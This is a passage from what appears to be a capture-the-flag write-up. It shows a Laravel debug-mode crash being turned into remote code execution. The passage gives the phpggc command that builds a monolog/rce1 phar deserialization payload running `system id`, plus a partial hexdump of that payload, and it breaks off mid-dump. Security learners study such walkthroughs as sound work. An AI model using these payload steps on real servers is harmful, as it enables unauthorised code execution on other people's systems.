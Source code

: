 
Visiting `/profiles` shows a crash:

![image-20210802143547930](https://0xdfimages.gitlab.io/img/image-20210802143547930.png)

But not only does it crash, but it returns a bunch of information. This is
Laravel debug mode.

### Laravel Debug Mode RCE

#### Exploit

Goolgling for “laravel debug mode exploit”, the first hit is [this
post](https://www.ambionics.io/blog/laravel-debug-rce):

![image-20210802143923384](https://0xdfimages.gitlab.io/img/image-20210802143923384.png)

There’s a PHP deserialization exploit that gets remote code execution against
Laravel debug mode. The blog post is very detailed, and at the end, there’s a
link to their [GitHub containing the
exploit](https://github.com/ambionics/laravel-exploits). I’ll also need
`phpggc`, available [here](https://github.com/ambionics/phpggc), to generate
the deserialization payload.

#### POC

To show it works, I’ll start with the `id` command. First, I’ll generate the
payload using `phpggc`:

    
    
    oxdf@hacky$ php -d'phar.readonly=0' /opt/phpggc/phpggc --phar phar -o id.phar --fast-destruct monolog/rce1 system id
    

This creates a serialized PHP file, which I saved as `id.phar`. The file looks
like a PHP object:

    
    
    oxdf@hacky$ xxd id.phar 
    00000000: 3c3f 7068 7020 5f5f 4841 4c54 5f43 4f4d  <?php __HALT_COM
    00000010: 5049 4c45 5228 293b 203f 3e0d 0abd 0100  PILER(); ?>.....
    00000020: 0002 0000 0011 0000 0001 0000 0000 0066  ...............f
    00000030: 0100 0061 3a32 3a7b 693a 373b 4f3a 3332  ...a:2:{i:7;O:32
    00000040: 3a22 4d6f 6e6f 6c6f 675c 4861 6e64 6c65  :"Monolog\Handle
    00000050: 725c 5379 736c 6f67 5564 7048 616e 646c  r\SyslogUdpHandl
    00000060: 6572 223a 313a 7b73 3a39 3a22 002a 0073  er":1:{s:9:".*.s
    00000070: 6f63 6b65 7422 3b4f 3a32 393a 224d 6f6e  ocket";O:29:"Mon
    00000080: 6f6c 6f67 5c48 616e 646c 6572 5c42 7566  olog\Handler\Buf
    00000090: 6665 7248 616e 646c 6572 223a 373a 7b73  ferHandler":7:{s
    000000a0: 3a31 303a 2200 2a00 6861 6e64 6c65 7222  :10:".*.handler"
    000000b0: 3b72 3a33 3b73 3a31 333a 2200 2a00 6275  ;r:3;s:13:".*.bu
    000000c0: 6666 6572 5369 7a65 223b 693a 2d31 3b73  fferSize";i:-1;s
    000000d0: 3a39 3a22 002a 0062 7566 6665 7222 3b61  :9:".*.buffer";a
    000000e0: 3a31 3a7b 693a 303b 613a 323a 7b69 3a30  :1:{i:0;a:2:{i:0
    000000f0: 3b73 3a32 3a22 6964 223b 733a 353a 226c  ;s:2:"id";s:5:"l
    00000100: 6576 656c 223b 4e3b 7d7d 733a 383a 2200  evel";N;}}s:8:".
    00000110: 2a00 6c65 7665 6c22 3b4e 3b73 3a31 343a  *.level";N;s:14:
    00000120: 2200 2a00 696e 6974 6961 6c69 7a65 6422  ".*.initialized"
    00000130: 3b62 3a31 3b73 3a31 343a 2200 2a00 6275  ;b:1;s:14:".*.bu
    00000140: 6666 6572 4c69 6d69 7422 3b69 3a2d 313b  fferLimit";i:-1;
    00000150: 733a 3133 3a22 002a 0070 726f 6365 7373  s:13:".*.process
    00000160: 6f72 7322 3b61 3a32 3a7b 693a 303b 733a  ors";a:2:{i:0;s:
    00000170: 373a 2263 7572 7265 6e74 223b 693a 313b  7:"current";i:1;
    00000180: 733a 363a 2273 7973 7465 6d22 3b7d 7d7d  s:6:"system";}}}
    00000190: 693a 373b 693a 373b 7d05 0000 0064 756d  i:7;i:7;}....dum
    000001a0: 6d79 0400 0000 af3f 0861 0400 0000 0c7e  my.....?.a.....~
    000001b0: 7fd8 a401 0000 0000 0000 0800 0000 7465  ..............te